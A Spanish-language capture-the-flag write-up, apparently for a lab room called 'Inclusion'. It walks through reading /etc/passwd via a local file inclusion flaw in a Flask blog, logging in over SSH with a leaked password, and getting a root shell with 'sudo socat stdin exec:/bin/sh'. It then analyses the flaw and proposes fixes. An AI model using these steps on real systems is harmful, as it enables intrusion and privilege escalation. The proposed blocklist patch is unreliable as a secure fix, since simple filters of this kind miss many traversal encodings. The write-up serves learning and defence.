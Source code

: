 # Inclusion
Room sencillita para explotar un LFI

Interesantes: Parcheo de vuln LFI en flask
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
```
## Enum
### HTTP

Vemos que los articulos se indexan mediante el nombre directo del archivo
```
http://10.10.30.43/article?name=lfiattack
```
Probamos a indexar algún archivo mas sensible como /etc/passwd
```
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
```
Usamos esas creds en el ssh y pa dentro

## Privesc
```
User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
Y simplemente ejecutamos 
```
sudo socat stdin exec:/bin/sh
```
Y listo, ya somos root

# Analisís de la intrusión
### LFI 
El codigo utilizado permite indexar archivos de manera arbitraria 
### Insecure password mangment
Por algun motivo las cred de falconfeast estan en el passwd 
### Privileged socat execution
El usuario falconfeast puede utilizar socat como root, lo cual nos permitio elevar privilegios a root

# Soluciones
### LFI 
Se podría corregir el codigo para evitar la lectura de archivos,asi como tmb seria recomendable limitar el acceso a ciertos archivos a www-data mediante el uso de AppArmor
#### Código
La función culpable es la siguiente
```python
@app.route('/article', methods=['GET'])
def article():

    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    try:
        template = open('/home/falconfeast/articles/{}'.format(page)).read()
        return render_template('show.html', data=template)
    except Exception as e:
        template = e

    return render_template('article.html', template=template)
```
Si hacemos unos pequeños ajustes podemos evitar los principales vectores de ataque LFI sin problema
```python
@app.route('/article', methods=['GET'])
def article():

    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    try:
        if(("/" in page ) or ("%252e" in page) or ('\\' in page)):
                pass
        else:
                template = open('/home/falconfeast/articles/{}'.format(page)).read()
                return render_template('show.html', data=template)
    except Exception as e:
        template = e

    return render_template('article.html', template=template)
```
Con esto tenemos bastante solucionado ya que los principales metodos funcionales para indexar archivos mediante LFI quedan cubiertos
### Privileged socat execution
Permitir a un usuario regular ejecutar socat como root no parece algo con mucho sentido, la principal opción para mitigar esto seria eliminar este permiso si por algún casual se diese un caso en el que esto fuera necesario lo ideal seria introducir el comando entero en /etc/sudoers limitando bastante la explotación y aun asi lo optimo seria establecer una politica de Seccomp al respecto
